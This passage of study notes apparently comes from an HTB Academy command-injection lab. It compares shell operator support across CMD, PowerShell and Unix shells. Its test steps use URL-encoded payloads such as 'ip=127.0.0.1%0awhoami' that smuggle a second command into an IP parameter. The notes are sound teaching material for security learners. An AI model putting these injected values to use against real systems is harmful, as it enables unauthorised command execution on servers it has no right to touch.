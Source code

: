 ### Environment-Specific Considerations

**Windows CMD:**
```cmd
# Limited operator support
command1 && command2  # Works
command1 || command2  # Works
command1 ; command2   # May not work
```

**PowerShell:**
```powershell
# Full operator support
command1; command2    # Works
command1 && command2  # Works (newer versions)
command1 || command2  # Works (newer versions)
```

**Unix/Linux Shell:**
```bash
# Complete operator support
command1; command2    # Sequential
command1 && command2  # Conditional (success)
command1 || command2  # Conditional (failure)
command1 | command2   # Pipe
command1 & command2   # Background
```

---

## Practical Lab Exercise

### HTB Academy Challenge

**Task:** Test the remaining three injection operators and determine output behavior.

**Operators to Test:**
1. **New Line** (`\n` → `%0a`)
2. **Background** (`&` → `%26`)
3. **Pipe** (`|` → `%7c`)

### Testing Methodology

**Step 1: New Line Testing**
```http
# Test payload
ip=127.0.0.1%0awhoami

# Expected result
# Both commands execute on separate lines
```

**Step 2: Background Testing**
```http
# Test payload  
ip=127.0.0.1%26whoami

# Expected result
# Both commands execute, second output may appear first
```
